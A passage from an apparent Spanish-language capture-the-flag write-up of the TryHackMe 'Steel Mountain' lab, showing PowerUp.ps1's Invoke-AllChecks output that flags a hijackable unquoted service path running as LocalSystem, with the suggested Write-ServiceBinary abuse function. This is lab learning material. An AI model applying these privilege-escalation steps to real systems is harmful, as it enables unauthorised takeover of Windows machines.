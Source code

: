 ![](/assets/images/thm-steelmountain/14.JPG)

Ejecutamos el programa utilizando 1- ". ./PowerUp.ps1" y 2- "Invoke-AllChecks".

Nos devuelve todo esto, los servicios del sistema.

```
PS > Invoke-AllChecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
```